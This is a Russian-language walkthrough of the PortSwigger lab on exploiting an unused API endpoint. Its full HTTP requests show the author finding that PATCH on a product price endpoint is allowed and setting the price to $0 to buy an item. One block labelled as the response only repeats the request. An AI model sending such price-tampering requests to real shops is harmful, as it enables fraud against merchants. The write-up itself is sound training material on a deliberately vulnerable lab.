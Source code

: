 ```yaml
---
title: "Finding and exploiting an unused API endpoint"
date: 2025-07-29
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-identifying-and-interacting-with-api-endpoints/api-testing/lab-exploiting-unused-api-endpoint"
classes: wide
---
```


Для прохождения лабы нужно найти эндпоинт с помощью **атаки на API**, который позволит купить `Lightweight l33t Leather Jacket`. Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a6600c70445360e80349468005300ba.web-security-academy.net
```

## Solution

Зайду на страницу нужного товара: `https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1`

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/1.png){: height="200" .align-center}


Я получил `productId` нужного товара: `1`. Попробую добавить другой товар в корзину, чтобы увидеть, через какой запрос он происходит. Предварительно залогинюсь в ЛК.

```http
POST /cart HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/cart
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: https://0a6600c70445360e80349468005300ba.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

productId=2&quantity=1&redir=CART
```

Вот этот запрос похож на правильный. Подставлю нужный `productId`.

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Товар был добавлен в корзину. Но у меня нема денег. Надо-что то с этим решать. ~~Заработать~~ Нашел вот такой запрос:

```http
GET /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
```

Попробую применить другие методы. Например `POST`, чтобы попробовать изменить цену на товар:

```http
POST /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json; charset=utf-8
Content-Length: 27

{
	"price": 1337.00
}
```

На что я получил интересный ответ:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Попробую метод `PATCH`:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6600c70445360e80349468005300ba.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   1
}
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.01"}
```

Проверю на сайте:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/2.png){: height="200" .align-center}

Денег все еще не хватает. Попрошу скидку:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   0
}
```

Их ответ:

```http
PATCH /api/products/1/price HTTP/2
Host: 0a6600c70445360e80349468005300ba.web-security-academy.net
Cookie: session=MkwUX4pRA0cdGpiNLV2rKk76UgD52Auu
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Content-Type: application/json; charset=utf-8
Content-Length: 23

{
	"price":   0
}

```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/3.png){: height="200" .align-center}

Вот теперь мне по карману. Возьму 2)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Finding_and_exploiting_an_unused_API_endpoint/4.png){: height="200" .align-center}